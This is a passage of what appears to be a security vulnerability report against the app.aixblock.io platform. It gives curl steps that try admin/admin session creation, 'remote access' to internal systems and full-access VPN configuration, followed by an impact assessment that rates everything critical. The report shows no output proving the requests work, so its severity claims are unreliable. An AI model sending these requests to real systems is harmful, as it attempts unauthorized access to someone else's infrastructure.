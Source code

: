 ### **Step 3: Session Creation**
```bash
# Create unauthorized session
curl -X POST https://app.aixblock.io/api/v1/session/create \
  -H "Content-Type: application/json" \
  -d '{"username": "admin", "password": "admin", "privileges": "admin"}'
```

### **Step 4: Remote Access Establishment**
```bash
# Establish remote access
curl -X POST https://app.aixblock.io/api/v1/remote/access \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer <session_token>" \
  -d '{"action": "connect", "target": "internal", "method": "vpn"}'
```

### **Step 5: VPN Configuration**
```bash
# Configure VPN access
curl -X POST https://app.aixblock.io/api/v1/vpn/configure \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer <session_token>" \
  -d '{"vpn_config": "client", "access_level": "full", "tunnel": "internal"}'
```

## **🎯 IMPACT ASSESSMENT**

### **Confidentiality**: Critical
- Access to all internal systems
- Database and file system access
- User credentials and sensitive data
- Business-critical information

### **Integrity**: Critical
- Ability to modify system configurations
- Database manipulation
- Code injection and backdoor installation
- System file modification

### **Availability**: Critical
- Complete system takeover
- Service disruption capabilities
- Data destruction potential
- Network infrastructure control

### **Business Impact**
- Complete infrastructure compromise
- Data breach and exfiltration
- Regulatory compliance violations
- Reputation and financial damage
- Potential legal liability
- Supply chain compromise

